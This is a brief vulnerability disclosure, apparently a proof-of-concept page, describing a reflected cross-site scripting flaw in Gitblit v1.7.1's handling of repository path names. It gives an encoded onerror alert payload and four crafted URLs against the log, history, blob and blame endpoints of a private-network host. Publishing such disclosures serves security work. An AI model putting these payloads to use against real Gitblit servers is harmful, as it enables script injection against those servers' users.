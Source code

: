 Vulnerability: Reflected XSS via Path

In Gitblit v1.7.1, a reflected cross-site scripting (XSS) vulnerability exists in the way repository path names are handled. By injecting a specially crafted path payload—such as "%22><img src=a onerror=alert(1)>"—an attacker can cause arbitrary JavaScript to execute when a victim views the manipulated URL. This flaw stems from insufficient input sanitization of filename elements.




Version: ```v1.7.1```


Authenticated: Yes, possibly unauthenticated

User: Admin




Payload: ```%22%3e%3cimg%20src%3da%20onerror%3dalert(1)%3e```

None of these will work for your instance.  You need to replace the repo names ```<REPLACE ME>``` with the exisiting ones.

```http://172.18.0.34/log/<REPLACE ME>.git/master%22%3e%3cimg%20src%3da%20onerror%3dalert(1)%3e```

```http://172.18.0.34/history/<REPLACE ME>.git/mastery%3cimg%20src%3da%20onerror%3dalert(1)%3e```

```http://172.18.0.34/blob/<REPLACE ME>.git/master/README.md%3cimg%20src%3da%20onerror%3dalert(1)%3e```

```http://172.18.0.34/blame/<REPLACE ME>.git/master/README.md%3cimg%20src%3da%20onerror%3dalert(1)%3e?star=true```


Demo:

![](https://github.com/4rdr/proofs/blob/main/gifs/gitblit-v1.7.1-reflected-XSS-via-filenames.gif?raw=true)
